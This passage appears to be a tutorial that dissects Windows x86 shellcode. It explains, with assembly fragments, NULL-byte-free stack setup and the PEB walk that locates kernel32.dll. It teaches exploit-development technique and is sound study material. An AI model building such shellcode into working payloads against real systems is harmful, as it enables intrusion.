 Now, let's analyze this code in depth to understand how each component works.

## The Architecture of Position-Independent Code

### Stack Setup and Basic Initialization

The shellcode begins by establishing a stable execution environment:

```assembly
mov   ebp, esp                  # Save stack pointer
add   esp, 0xfffff9f0           # Create ~1600 bytes of stack space
```

This initial setup creates a stack frame and reserves a significant amount of space (approximately 1600 bytes) for our operations. What's interesting is the use of a negative value (`0xFFFFF9F0`) to allocate space—a technique employed to avoid NULL bytes in the shellcode, which could terminate string processing in exploits.

The second component is the creation of consistent register states. This is crucial for position-independent code that must function regardless of its memory location:

```assembly
xor   ecx, ecx                  # Zero out ECX register
```

This simple operation clears ECX without using immediate zero values that would create unwanted NULL bytes in our shellcode.

### Windows Internals: The Process Environment Block

Next, we navigate Windows internal structures to find Kernel32.dll, the gateway to most Windows API functions:

```assembly
mov   esi, fs:[ecx+0x30]        # Access PEB via FS segment register
mov   esi, [esi+0x0C]           # PEB->Ldr (loader data)
mov   esi, [esi+0x1C]           # InInitializationOrderModuleList
```

This segment delves into undocumented Windows internals. The FS segment register at offset 0x30 points to the Process Environment Block (PEB), a Windows data structure containing process information. By traversing this structure, we locate the Loader Data Table, which contains information about all loaded modules.

The InInitializationOrderModuleList is particularly useful because Kernel32.dll is typically the second module in this list (ntdll.dll being the first).

### Kernel32.dll Module Discovery

The next code block iterates through loaded modules to find Kernel32.dll:

```assembly
next_module:
mov   ebx, [esi+0x08]           # Store module base address
mov   edi, [esi+0x20]           # Get module name pointer
mov   esi, [esi]                # Move to next module in list
cmp   [edi+12*2], cx            # Check if it's kernel32.dll
jne   next_module               # If not, try next module
```
